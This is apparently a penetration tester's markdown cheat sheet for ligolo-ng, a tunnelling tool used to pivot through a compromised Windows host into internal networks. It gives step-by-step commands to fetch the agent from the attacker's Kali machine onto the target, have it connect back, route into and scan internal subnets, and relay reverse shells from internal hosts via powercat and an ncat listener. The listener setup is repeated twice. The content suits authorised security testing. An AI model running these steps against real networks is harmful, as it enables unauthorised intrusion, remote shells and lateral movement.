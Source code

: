 # ligolo-ng
- Very quick walkthrough : https://www.youtube.com/watch?v=txFnX5NPqKc
```bash
proxy -selfcert		# KALI :  start ligolo-ng
curl.exe http://KALIip/ligolo_agent.exe -o agent.exe        # WIN : copy agent to windows target
./agent.exe -connect KALIip:11601 -ignore-cert # WIN : agent connects back to KALI 

# linogo-ng interface on KALI
session 
autoroute
select subnet/route you want access to
create a new interface, start tunnel

##### CLeanup if problems ##################
iflist
ifdel --name name_of_int
```
## Testing
- Attempt to useu the remote subnet through linolo-ng as normal
- Remember, NMAP will require 3 way connect, -sT, not syn stealth
-  John Hammond https://www.youtube.com/watch?v=qou7shRlX_s
``` bash
nmap -Pn -sn 10.1.2.0/24
```

## Setup listeners on the PIVOT machine
```bash
# Terminal running ligolo-ng 
session, choose Pivot Machine session, enter
listener_add -addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

# KALI terminal 
rlwrap ncat -nvlp 10000

# On internal_host1
powercat -c 10.1.2.4 -p 30000 -ep
```
##  Access Local Pivot ports
```bash
sudo ip r a 240.0.0.1/32 dev ligolo 
nmap 240.0.0.1      # TEST
```

Now we have the following, 
KALI -> PIVOT -> Inernal_Host1
If we want host1 to RevShell to Kali, we can use pivot
Setup listeners on the PIVOT machine

```bash
# Terminal running ligolo-ng 
session, choose Pivot Machine session, enter
listener_add -addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

# KALI terminal 
rlwrap ncat -nvlp 10000

# On internal_host1
powercat -c 10.1.2.4 -p 30000 -ep

### If you need to access local ports of pivot machine from KALI
sudo ip r a 240.0.0.1/32 dev ligolo
nmap 240.0.0.1 ## testing
```

## Install & Setup
- Install from here : https://github.com/nicocha30/ligolo-ng
- Download, and place in /opt/ligolo-ng
- Download Proxy for KALI and Agent for WINDOWS targets

```bash
mkdir /opt/ligolo-ng
tar xvfz ligolo.tar.gz
sudo chmod +x ./proxy 

#The Ligolo-ng proxy needs to create and manage the tun network interface (tun0 or ligolo)
# use setcap to delegate perm, so you can run ./proxy as non-ROOT user
# Grant the capability to administer network interfaces (NET_ADMIN)
sudo setcap cap_net_admin+eip ./proxy
# verify the cap is working
getcap ./proxy  # output should confirm the capability (e.g., ./proxy_linux_amd64 = cap_net_admin+eip).
./proxy -selfcert # Run the proxy without using sudo

# update $PATH in  ~/.zshrc
export PATH=$PATH:/opt/ligolo-ng
```


